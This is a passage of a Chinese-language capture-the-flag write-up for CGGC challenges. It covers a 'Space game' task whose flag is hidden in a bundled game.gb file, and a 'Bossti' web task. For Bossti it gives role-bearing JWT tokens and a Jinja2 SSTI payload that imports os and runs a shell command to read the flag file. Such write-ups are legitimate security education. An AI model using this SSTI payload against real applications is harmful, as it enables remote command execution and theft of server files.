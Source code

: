 
Flag: `CGGC{J00_sh4ll_n07_sH1P_S3cR37S_70_cuS70M3r}`

## Space game

### Recon
這一題因為是賽後才寫WP，所以沒有甚麼太詳細的資訊可以記錄，不過這一題的確很misc，但通靈的方向屢屢受挫

1. 首先題目給予一個網頁型的小遊戲(算是類似七八零年代的那種飛船打外星人的那種)，然後過關的條件是要至少活到最後並且打死30個以上的敵人，但這其實根本就和解題沒關係
2. 如果從動態看，可以看到他import一個檔案(game.gb)，misc的地方在於他把flag藏在這個檔案中，所以其實和遊戲一點關係都沒有(心累啊!!!!!)

### Exploit
![圖片](https://hackmd.io/_uploads/HJSpjdKrT.png)
如果實際去看他的binary，會發現有蠻多個flag，但學長測試下來正確的是`CGGC{Y0U_WIN!!123}`

Flag: `CGGC{Y0U_WIN!!123}`

## Bossti

### Background
JWT(maybe??)
SSTI

### Source code

### Recon
這一題也是搞心態，一開始以為他是和jwt有關的題目，所以在第一天打的時候，有嘗試過直接把jwt token改變，但卻過不了，到了第二天用一樣的token卻有不一樣的效果，不知道是不是server有問題或是作者有更新
![圖片](https://hackmd.io/_uploads/Hy-thOKSp.png)

1. admin頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoyLCJyb2xlIjoiYWRtaW4iLCJoYWNrIjoiIn0.kmCiItAN6q9xCmrZ1uqhZZP96_pqD5RBMp1Umv0HFKM`
    ![螢幕擷取畫面 2023-12-03 121645](https://hackmd.io/_uploads/Sk6EGttST.png)
2. boss頁面
    Payload: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxLCJyb2xlIjoiYm9zcyIsImhhY2siOiIifQ.VhS5VSRlR_RrgIlF-gdl-s1_PVHPQCxB3s8oHgwEPJ4`
    ![圖片](https://hackmd.io/_uploads/B17DfKKSa.png)
3. {% raw %}其實看了URL`http://10.99.111.109:5000/admin?data={%27user_id%27%3A+2,+%27role%27%3A+%27admin%27,+%27hack%27%3A+%27%27}`或`http://10.99.111.109:5000/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27%27}`才覺得應該和jwt認證沒關係，因為就算換到一個無痕頁面也一樣可以看得到，但重點是boss的頁面有給一個疑似是SSTI的提示(7\*7=49經典的payload)，所以剩下的事情就是SSTI payload瘋狂輸出拿flag
   {% endraw %}

### Exploit - SSTI
{% raw %}
Payload: `/boss?data={%27user_id%27%3A+1,+%27role%27%3A+%27boss%27,+%27hack%27%3A+%27{{self.__init__.__globals__.__builtins__.__import__("os").popen("cat%20Flag.txt").read()}}%27}`
{% endraw %}
![圖片](https://hackmd.io/_uploads/Byxfw7KYSa.png)

Flag: `CGGC{"S$T1_V3RY_EZ_2_Pwn3D_C0ngr4t$"}`